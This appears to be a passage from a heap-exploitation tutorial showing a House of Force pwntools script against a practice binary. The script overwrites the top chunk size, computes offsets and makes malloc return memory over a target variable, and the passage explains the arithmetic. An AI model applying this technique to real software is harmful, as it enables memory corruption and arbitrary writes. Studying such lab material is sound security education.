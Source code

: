 ```python
# First malloc to setup top chunk
# malloc(b'24',b'A'*24+p64(0xdeadbeef))
malloc(b'24',b'A'*24+p64(0xffffffffffffffff))

# Second malloc to get chunk overlapping target
# Calculate distance to target
target_addr = exe.symbols['target']
log.info(f"Target variable address: {hex(target_addr)}")
top_chunk_addr = heap_address + 0x20
log.info(f"Top chunk address: {hex(top_chunk_addr)}")
dist = distance(top_chunk_addr, target_addr - 0x20)

malloc(str(dist).encode(), b'B'*32)
sleep(1)

# Third malloc to overwrite target
malloc(b'24', b'HACKED!') 

io.interactive()
```

You can verify this:

```bash
$ ./arb_write.py GDB NOASLR
#...
> size: data: 
1) malloc 3/4
2) target
3) quit
> $ 2

target: HACKED!

```

You can also use:
```python
dist = distance(
    heap_address + 0x30,    # Current top chunk location + header size
    target_addr - 0x10     # Where we want new chunk header
)
```

Why +0x30?
- heap_addr + 0x20 → top chunk starts here
- +0x10 → account for top chunk's own header
= heap_addr + 0x30

Why -0x10?
- malloc returns address AFTER chunk header
- So header must be 0x10 bytes before target
= targetVar - 0x10
